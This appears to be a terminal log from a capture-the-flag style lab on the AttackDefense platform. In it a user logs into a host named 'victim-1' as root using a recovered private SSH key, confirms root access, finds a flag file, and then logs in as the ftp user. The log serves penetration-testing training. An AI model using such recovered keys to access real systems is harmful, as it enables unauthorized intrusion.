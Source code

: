 ```
root@attackdefense:~# chmod 0400 ssh_key 
root@attackdefense:~# ls -al ssh_key 
-r-------- 1 root root 1679 Mar 24 10:24 ssh_key
root@attackdefense:~# ssh -i ssh_key root@192.58.78.3
The authenticity of host '192.58.78.3 (192.58.78.3)' can't be established.
ECDSA key fingerprint is SHA256:oqLzK4Uz72ljNbol98v3RyT8BJDLVMAZql/uLIsuonI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.58.78.3' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
root@victim-1:~# id
uid=0(root) gid=0(root) groups=0(root)
root@victim-1:~# whoami
root
root@victim-1:~# ls
flag
root@victim-1:~# exit
logout
Connection to 192.58.78.3 closed.
```

```
root@attackdefense:~# ssh -i ssh_key ftp@192.58.78.3
ftp@192.58.78.3's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
ftp@victim-1:~$ id
uid=15(ftp) gid=1001(ftp) groups=1001(ftp),0(root)
ftp@victim-1:~$ whoami
ftp
```